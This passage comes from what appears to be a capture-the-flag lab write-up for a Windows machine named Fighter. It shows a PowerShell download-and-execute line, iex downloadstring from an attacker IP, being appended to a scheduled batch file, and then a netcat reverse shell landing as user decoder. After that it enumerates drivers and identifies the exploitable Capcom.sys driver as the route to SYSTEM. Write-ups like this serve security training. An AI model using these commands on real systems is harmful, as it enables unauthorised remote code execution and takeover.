     
    
    PS C:\users\decoder> cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1') >> clean.bat"
    

Quickly there’s a hit on my webserver, and then a connection at a listening
`nc`:

    
    
    oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.72.
    Ncat: Connection from 10.10.10.72:49226.
    Windows PowerShell running as user decoder on FIGHTER
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32>whoami
    fighter\decoder
    

I can read `user.txt`:

    
    
    PS C:\Users\decoder\desktop> type user.txt
    bb6163c1************************
    

## Shell as SYSTEM

### Enumeration - Drivers

There’s a suspicious driver loaded on this box, and there are a few ways to
identify it. `driverquery /v` will show all the drivers on the box, and if I
filter out all the ones in `C:\Windows\System32\Drivers` (using `findstr`,
which is Windows equivalent of `grep`), there’s only two left:

    
    
    PS C:\programdata> driverquery /v | findstr /iv "system32\\drivers"
    
    Module Name  Display Name           Description            Driver Type   Start Mode State      Status     Accept Stop Accept Pause Paged Pool(bytes) Code(bytes) BSS(bytes) Link Date              Path                                             Init(bytes)
    ============ ====================== ====================== ============= ========== ========== ========== =========== ============ ================= =========== ========== ====================== ================================================ ===========
    Capcom       Capcom                 Capcom                 Kernel        Auto       Running    OK         TRUE        FALSE        0                 1.280       0          05/09/2016 08:43:33    \??\C:\Windows\drivers\Capcom.sys                384        
    MpKsl0f8ba75 MpKsl0f8ba758          MpKsl0f8ba758          Kernel        Manual     Running    OK         TRUE        FALSE        16.384            12.288      0                                 \??\c:\ProgramData\Microsoft\Microsoft Antimalwa 4.096
    

Capcom is the company that made the game StreetFigher (that was the theme of
the website, and fits the box name Fighter), _and_ the `capcom.sys` driver is
famous for being exploitable for getting execution as SYSTEM, so that’s the
obvious path here.
